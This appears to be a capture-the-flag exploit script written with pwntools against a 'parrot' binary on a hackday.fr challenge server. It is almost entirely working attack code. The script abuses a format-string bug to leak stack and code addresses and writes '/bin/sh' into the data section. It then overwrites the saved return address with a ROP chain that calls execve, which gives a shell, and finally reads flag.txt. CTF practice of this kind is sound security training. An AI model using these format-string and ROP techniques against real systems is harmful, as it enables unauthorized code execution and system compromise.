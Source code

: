 ```py
from pwn import *

context.binary = "bin/parrot"
r = remote("sie2op7ohko.hackday.fr", 1341)

def send_payload(data):
    r.sendlineafter(b"> ", data)
    return r.recvline()

fmt_str = FmtStr(send_payload)
offset = fmt_str.offset

code_offset = 0x1235
stack_offset = 0x20EC9

leaks = send_payload(b"%11$lx %13$lx")
stack_leak, code_leak = map(lambda x: int(x, 16), leaks.decode().split(" "))
binary_base = code_leak - code_offset

log.info(f"binary base @ {hex(binary_base)}")

writable_data = 0x4000 + binary_base
should_exit = 0x4029 + binary_base
saved_rip = stack_leak - 0x2D1

# write /bin/sh in the .data section

write_bin_payload = fmt_str.write(writable_data, b"/bin")
fmt_str.execute_writes()
write_sh_payload = fmt_str.write(writable_data + 4, b"/sh\0")
fmt_str.execute_writes()

# build the rop chain

syscall = 0x11dd + binary_base
pop_rdi = 0x124b + binary_base
pop_rsi_r15 = 0x1249 + binary_base
pop_rdx_rax = 0x11df + binary_base
pop_rax = 0x11e0 + binary_base

execve = 0x3B
argv = 0
envp = 0

rop_chain = p64(pop_rdi) + p64(writable_data)
rop_chain += p64(pop_rsi_r15) + p64(argv) + p64(0)
rop_chain += p64(pop_rdx_rax) + p64(envp) + p64(execve)
rop_chain += p64(syscall)


for i in range(0, len(rop_chain), 4):
    dword = rop_chain[i:i+4]

    fmt_str.write(saved_rip + i, dword)
    fmt_str.execute_writes()

sh_payload = fmtstr_payload(offset, { should_exit: 1 })
r.sendlineafter(b"> ", sh_payload)

r.sendline(b"cat flag.txt")
print(r.recvline().decode())
```

